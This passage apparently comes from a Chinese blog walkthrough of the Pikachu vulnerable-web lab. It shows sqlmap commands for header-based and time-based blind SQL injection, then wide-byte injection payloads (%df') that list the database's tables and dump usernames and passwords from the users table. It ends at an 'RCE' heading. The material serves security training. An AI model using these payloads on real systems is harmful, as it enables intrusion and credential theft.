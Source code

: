 sqlmap直接开跑

```shell
sqlmap -r header.txt –current-db
```

![pikachu54](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu54.png)

## 盲注(base on time)

同样sqlmap直接跑

```shell
sqlmap -r header.txt –current-db
```

![pikachu55](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu55.png)

## 宽字节注入

正常输入kobe，SQL语句使用了like模糊查询

![pikachu56](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu56.png)

`%'`闭合无效，尝试宽字节闭合，先来个万能查询

```sql
name=%df' or 1=1#
```

![pikachu57](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu57.png)

查显示位（2个显示位）

```sql
name=%df' union select 1,2#
```

![pikachu58](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu58.png)
查库名，查表名

```sql
name=%df' union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![pikachu59](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu59.png)

查users表下的数据

```sql
name=%df' union select username,password from users#
```

![pikachu60](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu60.png)

# RCE
